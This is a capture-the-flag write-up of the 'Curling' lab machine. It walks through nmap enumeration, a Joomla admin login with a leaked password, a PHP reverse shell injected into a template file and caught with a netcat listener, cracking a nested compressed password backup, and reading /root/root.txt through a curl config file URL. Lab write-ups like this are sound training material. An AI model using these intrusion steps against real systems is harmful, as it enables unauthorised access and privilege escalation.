 # Curling
### Info:

OS: Linux <br>
IP: 10.10.10.150 <br>
Difficulty : easy-medium <br>

### Enumeration:
```nmap -sC -sV -oA nmap 10.10.10.150``` <br>

gives us the results : <br>

```
# Nmap 7.70 scan initiated Thu Jan 10 00:13:42 2019 as: nmap -sC -sV -oA nmap 10.10.10.150
Nmap scan report for 10.10.10.150
Host is up (0.59s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 10 00:14:14 2019 -- 1 IP address (1 host up) scanned in 32.46 seconds
```
As `Joomla CMS` is present at port 80 we find version details at  `/administrator/manifests/files/joomla.xml` <br>
Web page gives us the name of `super user : Floris` and we get a hint from source about `/secret.txt`<br> 
which gives us the  `password : Curling2018!(Q3VybGluZzIwMTgh)` <br>
Using dirbuster we get `/administrator/` where we can login with the above username and play with the CMS <br>

### Exploitation:
On going into extensions>templates>beez3 we get php files for that particular template where we can edit the files <br>
We edited error.php with `php-reverse-shell.php` and run this script at `/templates/beez3/error.php` <br> 
while listening via nc on specific port we get :
```
root@kali:~# nc -v -n -l -p 1234
listening on [any] 1234 ...
connect to [10.10.16.16] from (UNKNOWN) [10.10.10.150] 57974
Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 09:17:08 up 3 days, 10:16,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### Privilege Escalation (User):
 By `ls /home/floris` we get a password_backup file which had been `compressed with bz2` (by looking at file signatures)<br>
 Moving it to /tmp directory and decompressing it we get a `gzip file`.  <br>
 Repeating the decompressions we get a password.txt which had `5d<wdCbdZu)|hChXll` <br>
 
 Now we get password for user thereby :
 ```
 root@kali:~# ssh floris@10.10.10.150
floris@10.10.10.150's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-22-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan 10 09:35:04 UTC 2019

  System load:  0.08              Processes:            162
  Usage of /:   47.8% of 9.78GB   Users logged in:      0
  Memory usage: 37%               IP address for ens33: 10.10.10.150
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jan  9 22:19:25 2019 from 10.10.16.16
floris@curling:~$ 
```
where we get user.txt <br>
For root.txt we find 2 files in the dir `input and report`. Changing the contents of input changes the report. <br>
So everything is present on the local host therefore setting input as:
```
url = "files:///root/root.txt"
```
We get root.txt content in the report.

### Things Learned :

PHP reverse shell injection. <br>

Viewing local directories using Curl <br>


